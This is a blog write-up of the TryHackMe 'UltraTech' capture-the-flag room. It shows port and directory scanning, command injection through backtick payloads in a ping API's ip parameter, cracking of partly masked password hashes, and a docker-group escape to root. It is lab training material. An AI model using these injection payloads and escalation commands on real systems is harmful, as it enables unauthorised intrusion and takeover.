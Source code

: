 ```yaml
---
layout: default
title : bvr0n - UltraTech Write-up
---
```


_**Oct 06, 2020**_

[UltraTech](https://tryhackme.com/room/ultratech1) Writeup

## Nmap Scan :

```
bvr0n@kali:~$ nmap -sC -sV -p- 10.10.180.145

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
8081/tcp  open  http    Node.js Express framework
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Directories Brute Forcing :

```
bvr0n@kali:~$ ffuf -c -u http://10.10.180.145:8081/FUZZ -w Documents/Dirbuster/wordlist.txt
auth                    [Status: 200, Size: 39, Words: 8, Lines: 1]
```
```
bvr0n@kali:~$ ffuf -c -u http://10.10.180.145:31331/FUZZ -w Documents/Dirbuster/wordlist.txt
.htaccess               [Status: 403, Size: 300, Words: 22, Lines: 12]
.hta                    [Status: 403, Size: 295, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 300, Words: 22, Lines: 12]
css                     [Status: 301, Size: 321, Words: 20, Lines: 10]
favicon.ico             [Status: 200, Size: 15078, Words: 11, Lines: 7]
images                  [Status: 301, Size: 324, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 6092, Words: 393, Lines: 140]
javascript              [Status: 301, Size: 328, Words: 20, Lines: 10]
js                      [Status: 301, Size: 320, Words: 20, Lines: 10]
robots.txt              [Status: 200, Size: 53, Words: 4, Lines: 6]
server-status           [Status: 403, Size: 304, Words: 22, Lines: 12]
```
In /robots.txt we found this :
```
Allow: *
User-Agent: *
Sitemap: /utech_sitemap.txt
```
Goin to `/utech_sitemap.txt` give us this :
```
/
/index.html
/what.html
/partners.html
```

`/partners.html` seems to be a login page, inspecting the code source and checking what the API does, and this part caught my eyes :
```js
 function checkAPIStatus() {
        const req = new XMLHttpRequest();
        try {
            const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
            req.open('GET', url, true);
            req.onload = function (e) {
                if (req.readyState === 4) {
                    if (req.status === 200) {
                        console.log('The api seems to be running')

```
I tried going to `http://10.10.180.145:8081/ping?ip=10.10.180.145` , And it seems like Code Execution :
```
PING 10.10.180.145 (10.10.180.145) 56(84) bytes of data.
64 bytes from 10.10.180.145: icmp_seq=1 ttl=64 time=0.016 ms

--- 10.10.180.145 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.016/0.016/0.016/0.000 ms
```
I tried to execute other commands and it worked :
```
http://10.10.180.145:8081/ping?ip=10.10.180.145%20`whoami`
ping: www: Temporary failure in name resolution 

http://10.10.180.145:8081/ping?ip=10.10.180.145%20`ls`
ping: utech.db.sqlite: Name or service not known 
```

That file contained password hashes for 2 accounts : `admin` & `r00t`, Let's crack them using an [Online Tool](https://md5decrypt.net/) :
```
r00t : f357a0c******63c7c7b76c1e7543a32 : n****06 
admin : 0d0ea5111e3c1******c1684e3b9be84 : mr****fy 
```

When we login we get this : 
```
Restricted area

Hey r00t, can you please have a look at the server's configuration?
The intern did it and I don't really trust him.
Thanks!

lp1
```

## Internal Enum :

Since we have `r00t` credentials, Let's login to SSH.

After running id looks like we are in a docker :
```
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

We then check [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) : 
```
r00t@ultratech-prod:/tmp$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

This command won't work because there is no image named alphinen but we do have bash as image :
```
r00t@ultratech-prod:/tmp$ docker ps -a
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS                       PORTS               NAMES
aee9902a5c43        495d6437fc1e        "docker-entrypoint.s…"   19 minutes ago      Up 17 minutes                                    cocky_goodall
7beaaeecd784        bash                "docker-entrypoint.s…"   18 months ago       Exited (130) 18 months ago                       unruffled_shockley
696fb9b45ae5        bash                "docker-entrypoint.s…"   18 months ago       Exited (127) 18 months ago                       boring_varahamihira
9811859c4c5c        bash                "docker-entrypoint.s…"   18 months ago       Exited (127) 18 months ago                       boring_volhard
```
Executing this command give us root :
```
r00t@ultratech-prod:/tmp$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
root@41ff56823b91:/# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
root@41ff56823b91:/#
```

Thank's [m3dsec](https://github.com/m3dsec) for the reference ;)

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](../../index.md)

<br>
